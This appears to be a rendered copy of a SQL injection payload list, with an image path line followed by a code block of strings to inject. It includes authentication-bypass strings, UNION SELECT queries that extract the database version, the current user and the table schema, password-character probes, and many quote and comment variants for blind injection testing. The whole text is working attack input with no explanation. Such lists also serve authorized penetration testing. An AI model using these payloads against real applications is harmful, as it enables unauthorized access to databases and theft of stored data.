 ```
'=' 'or' and '=' 'or'
' UNION ALL SELECT 1, @@version;#
' UNION ALL SELECT system_user(),user();#
' UNION select table_schema,table_name FROM information_Schema.tables;#
admin' and substring(password/text(),1,1)='7
' and substring(password/text(),1,1)='7
"
'-- 2
"-- 2
'='
0'&lt;'2
"="
0"&lt;"2
')
")
')-- 2
')/*
')#
")-- 2
") #
")/*
')-('
')&('
')^('
')*('
')=('
0')&lt;('2
")-("
")&("
")^("
")*("
")=("
0")&lt;("2
'-''-- 2
'-''#
'-''/*
'&''-- 2
'&''#
'&''/*
'^''-- 2
'^''#
'^''/*
'*''-- 2
'*''#
'*''/*
'=''-- 2
'=''#
'=''/*
0'&lt;'2'-- 2
0'&lt;'2'#
0'&lt;'2'/*
"-""-- 2
"-""#
"-""/*
"&""-- 2
"&""#
"&""/*
"^""-- 2
"^""#
"^""/*
"*""-- 2
"*""#
"*""/*
```